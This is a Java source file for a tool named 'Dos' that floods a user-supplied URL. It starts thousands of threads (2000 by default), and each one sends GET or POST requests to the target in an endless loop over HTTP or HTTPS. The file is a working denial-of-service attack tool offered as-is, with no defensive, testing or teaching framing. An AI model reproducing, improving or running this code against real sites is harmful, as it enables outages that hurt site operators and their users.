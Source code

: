 import java.io.*;
import java.net.*;
import java.util.Scanner;
import java.util.ArrayList;

import javax.net.ssl.HttpsURLConnection;


public class Dos implements Runnable {



    private final String USER_AGENT =   "Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1";

    private static int amount = 0;
    private static String url = "";
    int seq;
    int type;

    public Dos(int seq, int type) {
        this.seq = seq;
        this.type = type;
    }

    public void run() {
        try {
            while (true) {
                switch (this.type) {
                    case 1:
                        postAttack(Dos.url);
                        break;
                    case 2:
                        sslPostAttack(Dos.url);
                        break;
                    case 3:
                        getAttack(Dos.url);
                        break;
                    case 4:
                        sslGetAttack(Dos.url);
                        break;

                }
            }
        } catch (Exception e) {

        }
    }


    public static void main(String[] args) throws Exception {
        String url = "";
        int attakingAmoun = 0;
        Dos dos = new Dos(0, 0);
        Scanner in = new Scanner(System.in);
        System.out.print("Enter Url: ");
        url = in.nextLine();
        System.out.println("\n");
        System.out.println("Starting Attack to url: " + url);

        String[] SUrl = url.split("://");

        System.out.println("Checking connection to Site");
        if (SUrl[0] == "http" || SUrl[0].equals("http")) {
            dos.checkConnection(url);
        } else {
            dos.sslCheckConnection(url);
        }

        System.out.println("Setting DDoS By: no name ");

        System.out.print("Thread: ");
        String amount = in.nextLine();

        if (amount == null || amount.equals(null) || amount.equals("")) {
            Dos.amount = 2000;
        } else {
            Dos.amount = Integer.parseInt(amount);
        }

        System.out.print("method: ");
        String option = in.nextLine();
        int ioption = 1;
        if (option == "get" || option == "GET") {
            if (SUrl[0] == "http" || SUrl[0].equals("http")) {
                ioption = 3;
            } else {
                ioption = 4;
            }
        } else {
            if (SUrl[0] == "http" || SUrl[0].equals("http")) {
                ioption = 1;
            } else {
                ioption = 2;
            }
        }

        Thread.sleep(2000);


        System.out.println("Starting Attack");
        ArrayList<Thread> threads = new ArrayList<Thread>();
        for (int i = 0; i < Dos.amount; i++) {
            Thread t = new Thread(new Dos(i, ioption));
            t.start();
            threads.add(t);
        }

        for (int i = 0; i < threads.size(); i++) {
            Thread t = threads.get(i);
            try {
                t.join();
            } catch (Exception e) {

            }
        }
        System.out.println("Main Thread ended");
    }

    private void checkConnection(String url) throws Exception {
        System.out.println("Checking Connection");
        URL obj = new URL(url);
        HttpURLConnection con = (HttpURLConnection) obj.openConnection();
        con.setRequestMethod("GET");
        con.setRequestProperty("User-Agent", USER_AGENT);

        int responseCode = con.getResponseCode();
        if (responseCode == 200) {
            System.out.println("Connected to website");
        }
        Dos.url = url;
    }

    private void sslCheckConnection(String url) throws Exception {
        System.out.println("Checking Connection (ssl)");
        URL obj = new URL(url);
        HttpsURLConnection con = (HttpsURLConnection) obj.openConnection();
        con.setRequestMethod("GET");
        con.setRequestProperty("User-Agent", USER_AGENT);

        int responseCode = con.getResponseCode();
        if (responseCode == 200) {
            System.out.println("Connected to website");
        }
        Dos.url = url;
    }

    private void postAttack(String url) throws Exception {
        URL obj = new URL(url);
        HttpURLConnection con = (HttpURLConnection) obj.openConnection();
        con.setRequestMethod("POST");
        con.setRequestProperty("User-Agent", USER_AGENT);
        con.setRequestProperty("Accept-Language", "en-US,en;");
        String urlParameters = "out of memory";

        con.setDoOutput(true);
        DataOutputStream wr = new DataOutputStream(con.getOutputStream());
        wr.writeBytes(urlParameters);
        wr.flush();
        wr.close();
        int responseCode = con.getResponseCode();
        System.out.println("POST !: " + responseCode + "Thread: " + this.seq);
    }

    private void getAttack(String url) throws Exception {
        URL obj = new URL(url);
        HttpURLConnection con = (HttpURLConnection) obj.openConnection();
        con.setRequestMethod("GET");
        con.setRequestProperty("User-Agent", USER_AGENT);

        int responseCode = con.getResponseCode();
        System.out.println("GET !: " + responseCode + "Thread: " + this.seq);
    }

    private void sslPostAttack(String url) throws Exception {
        URL obj = new URL(url);
        HttpsURLConnection con = (HttpsURLConnection) obj.openConnection();
        con.setRequestMethod("GET");
        con.setRequestProperty("User-Agent", USER_AGENT);
        con.setRequestProperty("Accept-Language", "en-US,en;");
        String urlParameters = "out of memory";

        con.setDoOutput(true);
        DataOutputStream wr = new DataOutputStream(con.getOutputStream());
        wr.writeBytes(urlParameters);
        wr.flush();
        wr.close();
        int responseCode = con.getResponseCode();
        System.out.println("GET attack  !:" + responseCode + "Thread: " + this.seq);
    }

    private void sslGetAttack(String url) throws Exception {
        URL obj = new URL(url);
        HttpsURLConnection con = (HttpsURLConnection) obj.openConnection();
        con.setRequestMethod("GET");
        con.setRequestProperty("User-Agent", USER_AGENT);

        int responseCode = con.getResponseCode();
        System.out.println("GET attack !: " + responseCode + "Thread: " + this.seq);
    }
}
